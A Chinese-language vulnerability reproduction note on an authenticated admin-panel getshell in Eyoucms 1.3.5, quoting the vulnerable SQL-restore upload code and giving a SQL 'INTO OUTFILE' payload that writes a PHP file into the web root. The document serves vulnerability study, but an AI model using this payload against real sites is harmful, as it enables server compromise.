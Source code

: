 ```yaml
---
title: Eyoucms 1.3.5 后台getshell
id: zhfly2919
---
```


# Eyoucms 1.3.5 后台getshell

## 一、漏洞简介

### 最新版本删除该功能

## 二、漏洞影响

Eyoucms 1.3.5

## 三、复现过程

### 漏洞分析

相关功能代码在`application/admin/controller/Tools.php`

```
 public function restoreUpload()
 {
     $file = request()->file('sqlfile');
     if(empty($file)){
         $this->error('请上传sql文件');
     }
     // 移动到框架应用根目录/data/sqldata/ 目录下
     $path = tpCache('global.web_sqldatapath');
     $path = !empty($path) ? $path : config('DATA_BACKUP_PATH');
     $path = trim($path, '/');
     $image_upload_limit_size = intval(tpCache('basic.file_size') * 1024 * 1024);
     $info = $file->validate(['size'=>$image_upload_limit_size,'ext'=>'sql,gz'])->move($path, $_FILES['sqlfile']['name']);
     if ($info) {
         //上传成功 获取上传文件信息
         $file_path_full = $info->getPathName();
         if (file_exists($file_path_full)) {
             $sqls = Backup::parseSql($file_path_full);
             if(Backup::install($sqls)){
                //array_map("unlink", glob($path));
                 /*清除缓存*/
                 delFile(RUNTIME_PATH);
                 /*--end*/
                 $this->success("执行sql成功", url('Tools/restore'));
             }else{
                 $this->error('执行sql失败');
             }
         } else {
             $this->error('sql文件上传失败');
         }
     } else {
         //上传错误提示错误信息
         $this->error($file->getError());
     }
 } 
```

上传过程中只验证了文件的大小和后缀，之后解析sql语句并执行。解析sql函数不再贴出，但并没有检测文件内容正常的sql语句都能通过解析。install函数直接执行了sql语句。

### 漏洞复现

登陆后台在`高级选项->备份还原->数据还原`可选择上传sql文件并执行

![image](../img/e31efde75630a234c81f80fd2d29fa4c.png)

上传sql文件内容为（需要知道网站绝对路径）

```
 select '<?php phpinfo(); ?>' into outfile 'D:\\tools\\phpstudy\\phpstudy_pro\\WWW\\testcms\\1.php'; 
```

上传成功后在网站根目录生成webshell。

![image](../img/aa9716e427e7396992451e8321608c9b.png)